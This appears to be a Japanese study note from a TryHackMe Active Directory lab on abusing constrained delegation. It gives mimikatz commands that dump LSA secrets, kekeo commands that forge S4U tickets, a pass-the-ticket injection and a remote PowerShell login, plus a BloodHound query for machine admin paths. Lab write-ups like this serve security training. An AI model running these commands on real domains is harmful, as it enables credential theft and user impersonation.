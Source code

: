 ```ps
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc,
                           http/THMSERVER1}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dscorepropagationdata    : 1/1/1601 12:00:00 AM
serviceprincipalname     : HTTP/svcServWeb.za.tryhackme.loc
givenname                : IIS
lastlogon                : 2/5/2025 1:44:29 AM
badpwdcount              : 0
cn                       : IIS Server
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated              : 4/27/2022 11:26:21 AM
primarygroupid           : 513
pwdlastset               : 4/29/2022 11:50:25 AM
usnchanged               : 172105
```

```ps
# svcIIS のパスワードを表示
mimikatz # token::elevate
mimikatz # lsadump::secrets

# TGTを生成
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:<password>

# TGS 要求を偽造
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

# インポート。（新しいmimikatzインスタンスで）
mimikatz # privilege::debug
mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

# t1_trevor.jones として thmserver1 にログイン
PS C:> New-PSSession -ComputerName thmserver1.za.tryhackme.loc
PS C:> Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

## 自動リレー

### マシンアカウント

AD には、あるマシンが別のマシンに対して管理者権限を持つという例外的なケースがある。

Bloodhound のカスタムクエリ

```text
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```

### 認証リレー
